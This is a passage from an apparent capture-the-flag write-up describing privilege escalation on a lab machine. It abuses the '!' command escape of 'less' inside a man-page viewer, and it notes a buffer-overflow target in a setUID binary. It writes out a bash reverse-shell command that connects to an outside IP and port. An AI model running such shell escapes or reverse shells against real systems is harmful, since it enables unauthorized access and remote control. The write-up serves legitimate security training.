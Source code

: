 Man pages uses 'less' as default, and within less we can run commands on system by prepending '!'.

`manual bash` and `!id` gives us:

![bashid](assets/markdown-img-paste-20210909171946308.png)

Starting a reverse shell within less.

`!bash -i >& /dev/tcp/10.8.210.115/1337 0>&1`

![rootuser](assets/markdown-img-paste-20210909172045523.png)

![rootbp](assets/markdown-img-paste-20210909172149762.png)

### Privesc the tryhard way
BOF vulnerability on 'validate' binary. The `/usr/local/bin/validate` has setUID bit set and is owned by anansi. So we won't get root by exploiting it but we might be able to land shell as anansi user.

**I never got the bad characters right, had to google it, not sure why**
